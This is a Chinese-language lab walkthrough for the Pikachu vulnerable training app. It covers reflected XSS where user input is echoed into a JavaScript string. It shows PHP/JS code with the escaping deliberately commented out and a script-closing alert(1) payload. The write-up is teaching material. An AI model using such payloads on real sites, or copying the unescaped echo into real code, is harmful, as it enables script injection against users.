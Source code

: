 ### xss 之 js 输出

**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['message'] !=null){
    $jsvar=$_GET['message'];
//    $jsvar=htmlspecialchars($_GET['message'],ENT_QUOTES);
    if($jsvar == 'tmac'){
        $html.="<img src='{$PIKA_ROOT_DIR}assets/images/nbaplayer/tmac.jpeg' />";
    }
}
```
```js
<script>
    $ms='<?php echo $jsvar;?>';
    if($ms.length != 0){
        if($ms == 'tmac'){
            $('#fromjs').text('tmac确实厉害,看那小眼神..')
        }else {
//            alert($ms);
            $('#fromjs').text('无论如何不要放弃心中所爱..')
        }

    }
</script>
```

**漏洞利用**

先输入一些字符串 `&<s>"11<>11'123<123>`,查看前端的源代码

![](../../../../assets/img/安全/实验/Misc/pikachu/17.png)

对于 JS 代码,我们需要构造一个闭合,根据显示的代码构造 payload `abc'</script><script>alert(1)</script>`

![](../../../../assets/img/安全/实验/Misc/pikachu/18.png)

---